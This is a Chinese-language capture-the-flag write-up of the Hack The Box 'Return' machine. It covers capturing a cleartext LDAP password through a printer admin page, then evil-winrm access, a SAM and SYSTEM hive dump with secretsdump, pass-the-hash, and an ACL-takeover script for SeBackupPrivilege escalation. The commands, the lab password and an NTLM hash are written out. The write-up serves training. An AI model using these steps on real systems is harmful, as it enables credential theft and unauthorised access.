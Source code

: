 ```yaml
---
description: Easy / LDAP明文传输 / SeBackupPrivilege提权
---
```


# ✔️ Return

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA return 10.129.95.241 --open
```

<figure><img src="../../.gitbook/assets/1 (32).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (30).png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出信息发现目标系统开放了80端口，登录查看是一个打印机的管理员界面：

<figure><img src="../../.gitbook/assets/3 (27).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch没有找出来什么特别的隐藏文件/目录，在查看settings.php页面发现了域名、端口还有用户名和密码，其中密码部分无法查看：

<figure><img src="../../.gitbook/assets/4 (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (29).png" alt=""><figcaption></figcaption></figure>

* 将找到的域名和之前Nmap输出中的域名添加到hosts文件里：

<figure><img src="../../.gitbook/assets/7 (29).png" alt=""><figcaption></figcaption></figure>

* 先尝试使用不同工具进行匿名登录SMB均无收获，enum4linux信息收集也没有什么收获：

<figure><img src="../../.gitbook/assets/8 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (2) (1).png" alt=""><figcaption></figcaption></figure>

* 回到打印机settings的界面，它设置的端口389是LDAP协议，该打印机是通过LDAP连接到目标域进行身份验证的，这意味着用户svc-printer是一个域内用户账户，且LDAP是明文传输，因此当我们修改目标服务器地址为Kali本机地址时，并在本机做好监听后，即可读取到传输的明文密码内容：

<figure><img src="../../.gitbook/assets/11 (2) (1).png" alt=""><figcaption></figcaption></figure>

* 此时已获得一个有效凭证：<mark style="color:red;">**svc-printer:1edFg43012!!**</mark>&#x20;

### GET SHELL

* 通常当有了一个有效凭证后就可以尝试用evil-winrm来获取shell了（虽然并不总是管用）：

```bash
evil-winrm -i return.local -u svc-printer -p '1edFg43012!!'
```

<figure><img src="../../.gitbook/assets/12 (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (2) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS进行信息收集：

```bash
# evil-winrm
upload /root/Documents/HTB-AD/return/info/winPEASx64.exe
.\winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/14 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在winPEAS的输出信息中，找到了当前账户的所有的权限中有sebackupprivilege权限，这意味着当前用户在目标系统中有了读取文件和数据的能力。因此，决定从目标系统的SAM中提取高权限用户的哈希，并以此作为登录的凭证：

<figure><img src="../../.gitbook/assets/15 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 创建一个/temp目录，并将HKLM的sam.hive和system.hive复制到 /temp目录下并下载：

```bash
# evil-winrm
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```

<figure><img src="../../.gitbook/assets/17 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (1).png" alt=""><figcaption></figcaption></figure>

* 再使用impacket-secretsdump获取NTLM哈希：

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

<figure><img src="../../.gitbook/assets/20 (1).png" alt=""><figcaption></figcaption></figure>

* 最后使用获取到的Administrator账户的哈希，利用evil-winrm进行登录，以为是网络原因登录不成功，但换了时间尝试多次发现该账户应该是不能用hash进行登录：

```bash
evil-winrm -i return.local -u "Administrator" -H "34386a771aaca697f447754e4863d38a"
```

<figure><img src="../../.gitbook/assets/21 (14).png" alt=""><figcaption></figcaption></figure>

* 因此重新搜索关于SeBackupPrivilege的漏洞利用脚本，发现Acl-FullControl.ps1脚本适用于SeBackupPrivilege提权，它是在当前用户的权限下，修改指定路径的访问控制列表(ACL)，给低权限用户添加高权限，赋予它完全的控制权，从而达到提权的效果。
* 该命令将当前的svc-printer用户的访问控制权指向到c:\users\administrator\，执行成功的话就意味着我们对这个目录及其内容有完全控制权：

```powershell
Import-module .\Acl-FullControl.ps1; Acl-FullControl -user svc-printer -path c:\users\administrator\
```

<figure><img src="../../.gitbook/assets/22 (14).png" alt=""><figcaption></figcaption></figure>

* 上传脚本，并执行：

<figure><img src="../../.gitbook/assets/23 (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25 (11).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Get Shell阶段除了常规的枚举之外，还应注意那些最直接的信息。提权阶段锁定漏洞时，有时手动枚举可能会比工具枚举来的更快一些。特别是网络状况不太好时，传输文件会极其的慢。
{% endhint %}
